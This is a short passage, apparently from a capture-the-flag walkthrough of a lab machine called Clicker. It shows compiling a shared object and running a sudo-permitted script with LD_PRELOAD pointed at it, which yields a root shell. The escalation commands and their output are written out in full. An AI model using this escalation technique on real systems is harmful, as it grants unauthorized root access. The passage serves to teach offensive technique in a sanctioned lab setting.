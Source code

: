 There’s no compilation tools on the host, but since both it and my VM are Ubuntu-based, compiling locally shouldn’t cause issues. I’ll generate a `.so` file:

```
oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles

```

I’ll copy this file up to Clicker into `/tmp`. Now I can run with `LD_PRELOAD` pointing at this shared object and it will run `bash`:

```
jack@clicker:~$ sudo LD_PRELOAD=/tmp/shell.so /opt/monitor.sh
root@clicker:/home/jack#

```





